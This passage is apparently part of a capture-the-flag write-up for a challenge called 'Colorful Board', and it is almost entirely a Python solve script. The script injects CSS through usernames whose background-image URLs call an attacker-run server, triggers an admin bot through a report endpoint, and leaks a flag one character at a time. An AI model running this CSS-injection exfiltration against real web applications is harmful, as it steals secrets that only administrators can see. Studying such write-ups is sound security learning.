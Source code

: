 ```py
        + "{"
        + f"background-image: url('{server}oz/{flag + i}')"
    )
    payload["username"] = "ozs" + flag + i
    s = requests.Session()
    retries = Retry(
        total=10, backoff_factor=1, status_forcelist=[i for i in range(500, 600)]
    )
    s.mount("http://", HTTPAdapter(max_retries=retries))

    s.post(url + "auth/register", json=payload)
    r = s.post(url + "auth/login", json=payload)
    s.cookies.set("accessToken", r.json()["accessToken"])

    s.post(url + "post/write", json={"title": "test", "content": "test"})
    r = s.get(url + "post/")
    post_id = re.findall(r"post/([a-f0-9]+)", r.text)[0]
    print(post_id, flag + i)
    r = s.get(url + f"admin/report?url=http://localhost:1337/post/edit/{post_id}")
    print(r.text)
    return


@app.route("/solve")
def solve():
    oldflag = flag
    threads = []
    for i in charset:
        if oldflag != flag:
            break

        t = threading.Thread(target=check_flag, args=(i,))
        t.start()
        threads.append(t)

        if len(threads) > max_threads:
            for t in threads:
                t.join()
            threads = []

    for t in threads:
        t.start()
    return "OK"


@app.route("/oz/<path:path>")
def catch_all(path):
    global flag
    print(path)
    flag = path

    threading.Thread(target=solve).start()

    return "OK"


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=80)
```

![Colorful Board](/static/images/deadsec-writeups/colorful-board-04.png)